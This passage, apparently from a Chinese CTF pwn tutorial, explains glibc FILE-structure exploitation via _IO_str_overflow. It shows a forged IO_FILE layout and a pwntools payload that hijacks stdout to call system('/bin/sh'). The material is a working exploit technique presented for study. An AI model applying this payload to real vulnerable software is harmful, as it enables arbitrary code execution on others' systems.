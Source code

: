 和之前利用`_IO_str_finish`的思路差不多，可以看到其中调用了`fp->_s._allocate_buffer`函数指针，其参数`rdi`为`new_size`，

因此，我们将`_s._allocate_buffer`改为`system`的地址，`new_size`改为`'/bin/sh'`的地址，

又`new_size = 2 * old_blen + 100`，也就是`new_size = 2 * _IO_blen (fp) + 100`，

可以找到宏定义：

`#define _IO_blen(fp) ((fp)->_IO_buf_end - (fp)->_IO_buf_base)`，

因此`new_size = 2 * ((fp)->_IO_buf_end - (fp)->_IO_buf_base) + 100`，

故我们可以使**`_IO_buf_base = 0`，`_IO_buf_end = (bin_sh_addr - 100) // 2`**，

当然还不能忘了需要绕过`_IO_flush_all_lokcp`函数中的输出缓冲区的检查

**`_mode<=0`以及`_IO_write_ptr>_IO_write_base`**

才能进入到`_IO_OVERFLOW`中，

故令`_IO_write_ptr = 0xffffffffffffffff`且`_IO_write_base = 0x0`即可。
最终可按如下布局`fake IO_FILE`：

```c
._chain => chunk_addr
chunk_addr
{
  file = {
    _flags = 0x0,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = (bin_sh_addr - 100) // 2,
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = _IO_str_jumps //chunk_addr + 0xd8 ~ +0xe0
}
+0xe0 ~ +0xe8 : system_addr / one_gadget //fp->_s._allocate_buffer
```

参考`payload`（劫持的`stdout`）：

```python
new_size = libc_base + next(libc.search(b'/bin/sh'))
payload = p64(0xfbad2084)
payload += p64(0) # _IO_read_ptr
payload += p64(0) # _IO_read_end
payload += p64(0) # _IO_read_base
payload += p64(0) # _IO_write_base
payload += p64(0xffffffffffffffff) # _IO_write_ptr
payload += p64(0) # _IO_write_end
payload += p64(0) # _IO_buf_base
payload += p64((new_size - 100) // 2) # _IO_buf_end
payload += p64(0) * 4
payload += p64(libc_base + libc.sym["_IO_2_1_stdin_"])
payload += p64(1) + p64((1<<64) - 1)
payload += p64(0) + p64(libc_base + 0x3ed8c0) #lock
payload += p64((1<<64) - 1) + p64(0)
payload += p64(libc_base + 0x3eb8c0)
payload += p64(0) * 6
payload += p64(libc_base + get_IO_str_jumps_offset()) # _IO_str_jumps
payload += p64(libc_base + libc.sym["system"])
```
